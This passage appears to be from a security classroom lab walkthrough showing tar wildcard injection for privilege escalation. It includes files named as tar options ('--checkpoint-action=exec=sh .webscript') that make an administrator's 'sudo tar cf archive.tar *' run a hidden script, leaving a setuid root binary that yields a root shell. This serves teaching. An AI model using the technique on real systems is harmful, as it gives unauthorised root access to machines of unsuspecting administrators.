        - Run `sudo tar cf archive.tar *`

       - Note that this command is run within the directory where `.webscript` is located. If it were run elsewhere, the backdoor would not be generated.

   - Getting this exploit to work requires the system administrator to create the archive from the same folder where `.webscript` lives. Common targets that are often archived in this way include `/tmp`, users' `~` directories, users' `Documents` directories.

5. List the contents of our directory to show that our hidden malicious program and checkpoint files have been created.

    - Run: `ls -la` and show the output:

      ```
      drwxrwxr-x 3 instructor instructor  4096 Apr 28 19:53 .
      -rw-r--r-- 1 root       root       10240 Apr 28 19:53 archive.tar
      drwxr-xr-x 2 root       root        4096 Apr 28 19:53 .cache
      -rw-rw-r-- 1 instructor instructor  3699 Apr 28 19:50 wildpwn.py
      drwxr-xr-x 5 instructor instructor  4096 Apr 28 19:49 ..
      ```

    - Review the following about this output:

      - There is a new directory called `.cache` that we will explore in just a moment.

      - The directory contained two files: `--checkpoint=1` and  `--checkpoint-action=exec=sh .webscript`

      - These are files whose names look like `tar` commands. Normal users would never use such filenames. This is something that only hackers would do.

      - The `.webscript` contained the malicious code that was planted by running the `wildpwn.py` program.

    - What do you think the file `--checkpoint-action=exec=sh .webscript` will do when interpreted as a checkpoint command.

      - **Answer:** When an administrator uses `tar` to create an archive containing this file, it will cause `tar` to run the program `.webscript` as a checkpoint command. Note that the period `.` before `webscript` indicates that it is a hidden file. It can be displayed using the `-a` switch.

6. Move into the new `.cache` directory and list the files located inside.

    - `cd .cache`

    - `ls -la` to show the output:

      ```
      total 20
      drwxr-xr-x 2 root       root       4096 Jan  3 13:54 .
      drwxr-xr-x 8 instructor instructor 4096 Jan  6 10:50 ..
      -rwsr-xr-x 1 root       root       8392 Jan  3 13:54 .cachefile
      ```

       - There is only one file here, an executable `.cachefile`.

   - Run: `./.cachefile` to execute it.

    - This will  change the user prompt from `instructor` to `root`. We now have root access.
